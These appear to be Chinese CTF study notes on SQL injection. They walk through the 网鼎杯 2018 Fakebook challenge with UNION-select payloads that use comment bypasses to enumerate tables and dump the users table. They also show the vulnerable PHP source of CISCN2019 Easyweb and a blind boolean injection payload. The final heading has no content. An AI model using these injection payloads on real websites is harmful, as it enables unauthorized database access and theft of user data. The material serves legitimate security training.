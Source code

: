 
## Sql注入例题/示例/实战
### 网鼎杯 2018 Fakebook

```
/view.php?no=1 and 1=1
/view.php?no=1 and 1=2
/view.php?no=1 order by 5
//发现过滤了union select 使用注释绕过
/view.php?no=-1 union/**/select 1,2,3,4
/view.php?no=-1 union/**/select 1,database(),3,4
//得到数据库数据fakebook 
/view.php?no=-1 union/**/select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema=database()
//得到表名数据:users 
/view.php?no=-1 union/**/select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='users'
//得到字段数据:no,username,passwd,data
/view.php?no=-1 union/**/select 1,group_concat(data),3,4 from users
//得到data字段下数据:O:8:"UserInfo":3:{s:4:"name";s:7:"xiaohua";s:3:"age";i:12;s:4:"blog";s:9:"baidu.com";} 
```
### 单引号过滤 | [CISCN2019 总决赛 Day2 Web1]Easyweb

```php
<?php
include "config.php";

$id=isset($_GET["id"])?$_GET["id"]:"1";
$path=isset($_GET["path"])?$_GET["path"]:"";

$id=addslashes($id);
$path=addslashes($path);

$id=str_replace(array("\\0","%00","\\'","'"),"",$id);
$path=str_replace(array("\\0","%00","\\'","'"),"",$path);

$result=mysqli_query($con,"select * from images where id='{$id}' or path='{$path}'");
$row=mysqli_fetch_array($result,MYSQLI_ASSOC);

$path="./" . $row["path"];
header("Content-Type: image/jpeg");
readfile($path);
?>
```
payload: 

```
url = "?id=\\0&path=or 1=if(ascii(substr(database(),%d,1))>%d,1,-1)%%23" % (i, mid)
```

### 单引号过滤| 二次注入 | 网鼎杯2018 comment

